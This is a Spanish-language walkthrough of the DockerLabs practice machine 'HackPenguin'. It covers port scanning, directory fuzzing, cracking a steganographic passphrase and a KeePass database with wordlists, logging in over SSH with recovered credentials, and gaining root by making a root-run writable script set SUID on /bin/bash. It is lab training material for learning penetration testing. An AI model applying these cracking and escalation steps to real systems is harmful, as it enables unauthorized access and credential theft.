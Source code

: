 # [HackPenguin](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh hackpenguin.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que están abiertos los puertos **22** y **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6cfd1d77-2a62-4269-86e9-1892ca713d92)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:`. Observamos la página por defecto de `Apache 2`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a7adc3b7-b774-4c98-b19d-e9797b849b82)

<br>

### Gobuster

Si inspeccionamos el Código Fuente con `CTRL + U`, no encontraremos nada por lo que haremos un fuzzing `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html`, nos detecta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/eb5be65a-30b1-47a7-ac56-dd7dae1e9d62)

<br>

Nos dirigimos al archivo `penguin.html`, y vemos lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9a649e71-8949-4a42-9fe3-2dbd730a7bcc)

<br>

### Estenografía

Probaremos a descargarnos la imagen y ver si se esconde algún archivo detrás de esta.

<br>

Usaremos `steghide` de la siguiente forma `steghide extract -sf penguin.jpg` pero como lo tenemos la passphrase no podremos extraerlo:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f9a94c4a-53ea-4e43-99fc-ba3d596995fb)

<br>

Por lo que usaremos `stegseek` para crackear la passphrase, pondremos `stegseek --crack penguin.png /usr/share/wordlists/rockyou.txt output.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d78de110-22d0-4bde-a93a-81642088ad53)

<br>

Vemos que detrás de la imagen se encontraba un archivo con extensión `.kdbx` (KeePass), y la passphrase era `chocolate`. Si probamos ha abrir el archivo con `keepassxc penguin.kdbx` y de contraseña ponemos `chocolate`, nos dará error:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/aa5708a1-7e32-41cd-9842-b339f4861155)

<br>

Por lo que probaremos a crackear la contraseña del archivo de KeePass `penguin.kdbx`, usaremos `keepass2john penguin.kdbx > hash`. Una vez tenemos el hash, haremos `john hash --wordlist=/usr/share/wordlists/rockyou.txt`, y tendremos el siguiente output:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b2bb8227-8bf4-4271-a701-36b473797c46)

<br>

Una vez crackeada la contraseña, abrimos el archivo de KeePass con `keepassxc penguin.kdbx`, introducimos la contraseña **password1**, y nos sale lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/364b963b-d2c4-4c5c-841d-714560b5d97e)

<br>
<br>

## SSH (Puerto 22)

Por lo que una vez que tenemos un posible usuario **pinguino** y una contraseña **pinguinomaravilloso123**, probamos a autenticarnos por `ssh` de la siguiente forma `ssh pinguino@172.17.0.2`, introducimos la contraseña pero nos dará error.
Pero si observamos en Keepass arriba a la derecha, parece que hay un grupo de usuario llamado **penguin**:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b4f72b59-cc53-4554-8847-a38df4c1d4e6)

<br>

Entonces, probamos a autenticarnos con el grupo penguin `ssh penguin@172.17.0.2`, introducimos la contraseña y listo ya estamos dentro de la máquina HackPenguin:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a5396f7c-1041-406b-9219-b74f6d102516)

<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY escribimos `bash` y ya podemos operar cómodamente.

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4dd9b7fc-b91c-44a0-baee-0eb9a7ae35a9)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b9ba849c-cd57-4270-97d8-acd6e14ea0b1)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Dado que no hemos encontrado nada pasaremos a intentar buscar algún archivo con información, y en el directorio personal de penguin (`/home/penguin`), encontramos lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fded3f82-66c7-4e90-aa0e-877fd8be3f94)

<br>

Si vemos el contenido de estos, encontraremos lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f9199a0a-5857-44e1-840a-35402ca2c816)

<br>

Ahora vamos a ver los procesos en ejecución para ello usaremos la herramienta [pspy64](https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64), nos la compartimos con la máquina víctima con python `python3 -m http.server`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/05db4342-0ab3-4a50-a163-85eccdd28aa9)

<br>

Y en la máquina víctima usaremos `wget 172.17.0.1/pspy64`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/12279c83-d07b-406c-9a2a-da5647012062)

<br>

Le damos permisos de ejecución `chmod +x pspy64`, y lo ejecutamos `./pspy64`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6efe3a84-bb05-4c1f-a064-7d50cdb92139)

<br>

Vemos que el usuario root esta ejecutando todo el rato el archivo `script.sh`, y como tenemos permiso de modificación sobre dicho archivo:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/de374552-32ca-44e2-bc90-39095084a83e)

<br>

Pasaremos a modificar su contenido y añadiremos la siguiente línea:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ba2b368d-fc4d-4e44-8445-d486b5d59ba1)

<br>

Lo que hace está línea es otorgar permisos SUID a la `/bin/bash`, comprobamos que los tiene:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fe0dbfea-b3b3-48b7-b849-15bb58b35e1d)

<br>

Una vez que la `/bin/bash` tiene permisos SUID, ejecutaremos `/bin/bash -p` y listo ya somos **root!** 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/eb44cc6f-d165-4b29-99d6-2005e5f29819)